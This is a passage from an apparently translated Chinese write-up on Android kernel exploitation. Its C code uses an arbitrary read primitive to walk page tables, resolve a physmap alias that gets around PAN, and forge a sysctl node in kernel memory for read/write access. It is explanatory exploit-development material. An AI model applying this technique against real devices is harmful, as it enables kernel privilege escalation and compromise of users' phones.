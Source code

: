 为了插入新的节点，我们需要在内核内存中找到其位置。这是必要的，因为现代手机都使用了PAN（永不启用特权访问）功能，这可以防止内核无意中使用用户区域的内存。假设我们已经拥有一个任意的读取原语，可以通过解析从current-&gt;mm-&gt;pgd开始的进程页表，并在physmap中找到其中一个页面的地址来解决这一问题。此外，使用我们自定义用户空间页面的physmap别名往往是一个理想的选择，因为我们可以轻松地编辑节点，以更改要定位的数据地址，从而为我们提供了灵活的读/写原语。<br>
我们通过以下方式来解析physmap别名：

```
/* Now resolve our mapping at 2MB. But first read memstart_addr so we can do phys_to_virt() */

memstart_addr = read64(kernel_base + MEMSTART_ADDR_OFFSET);
printf("[+] memstart_addr: 0x%lxn", memstart_addr);
uint64_t mm = read64(current + MM_OFFSET);
uint64_t pgd = read64(mm + 0x40);
uint64_t entry = read64(pgd);

uint64_t next_tbl = phys_to_virt(((entry &amp; 0xffffffffffff)&gt;&gt;12)&lt;&lt; 12);
printf("[+] First level entry: %lx -&gt; next table at %lxn", entry, next_tbl);

/* Offset 8 for 2MB boundary */
entry = read64(next_tbl + 8);
next_tbl = phys_to_virt(((entry &amp; 0xffffffffffff)&gt;&gt;12)&lt;&lt; 12);
printf("[+] Second level entry: %lx -&gt; next table at %lxn", entry, next_tbl);

entry = read64(next_tbl);
uint64_t kaddr = phys_to_virt(((entry &amp; 0xffffffffffff)&gt;&gt;12)&lt;&lt; 12);


*(uint64_t *)map = 0xdeadbeefbadc0ded;
if ( read64(kaddr) != 0xdeadbeefbadc0ded) {
   printf("[!] Something went wrong resolving the address of our mappingn");
   goto out;
}
```

请注意，我们需要读取memstart_addr的内容，以便能够在屋里地址和相应的physmap地址之间进行转换。无论如何，在运行这个代码之后，我们知道在进程地址空间0x200000处找到的数据也可以在内核空间的kaddr中找到。<br>
这样，我们就可以设置新的sysctl节点，具体如下：

```
/* We found the insertion place, setup the node */

uint64_t node_kaddr = kaddr;
void *node_uaddr = map;

uint64_t tbl_header_kaddr = kaddr + 0x80;
void *tbl_header_uaddr = map + 0x80;

uint64_t ctl_table_kaddr = kaddr + 0x100;
ctl_table_uaddr = map + 0x100;

uint64_t procname_kaddr = kaddr + 0x200;
void * procname_uaddr = map + 0x200;

/* Setup rb_node */
*(uint64_t *)(node_uaddr + 0x00) = prev_node;              // parent = prev_node
*(uint64_t *)(node_uaddr + 0x08) = 0;                      // right = null
*(uint64_t *)(node_uaddr + 0x10) = 0;                      // left = null

*(uint64_t *)(node_uaddr + 0x18) = tbl_header_kaddr;       // my_tbl_header

*(uint64_t *)(tbl_header_uaddr) = ctl_table_kaddr;
*(uint64_t *)(tbl_header_uaddr + 0x18) = 0;                // unregistering
*(uint64_t *)(tbl_header_uaddr + 0x20) = 0;                // ctl_Table_arg
*(uint64_t *)(tbl_header_uaddr + 0x28) = sysctl_table_root;      // root
*(uint64_t *)(tbl_header_uaddr + 0x30) = sysctl_table_root;      // set
*(uint64_t *)(tbl_header_uaddr + 0x38) = sysctl_table_root + 8;  // parent
```